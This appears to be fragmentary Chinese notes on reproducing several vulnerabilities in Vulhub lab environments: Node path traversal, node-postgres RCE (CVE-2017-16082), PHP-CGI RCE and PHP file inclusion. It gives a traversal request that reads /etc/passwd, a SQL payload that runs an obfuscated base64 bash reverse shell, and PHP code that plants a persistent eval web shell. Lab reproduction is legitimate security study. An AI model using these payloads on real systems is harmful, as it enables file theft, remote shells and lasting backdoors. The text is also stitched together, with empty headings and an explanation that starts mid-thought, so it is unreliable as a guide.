 访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件/`static/main.js`，说明其存在静态文件服务器。

发送如下数据包，即可读取passwd：
```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

# **[node-postgres 代码执行漏洞（CVE-2017-16082）](https://vulhub.org/#/environments/node/CVE-2017-16082/)**


## **[漏洞利用](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)**：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"

```

# **[PHP-CGI远程代码执行漏洞（CVE-2012-1823）](https://vulhub.org/#/environments/php/CVE-2012-1823/)**


## **[漏洞原理](https://auth.eindbazen.net/login)**

于是，if(!cgi) getopt(...)被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

# **[PHP文件包含漏洞（利用phpinfo）](https://vulhub.org/#/environments/php/inclusion/)**

## 


## 漏洞复现

利用脚本`[exp.py](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py)`实现了上述过程，成功包含临时文件后，会执行
```
`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`
```
，写入一个新的文件/tmp/g，这个文件就会永久留在目标机器上。
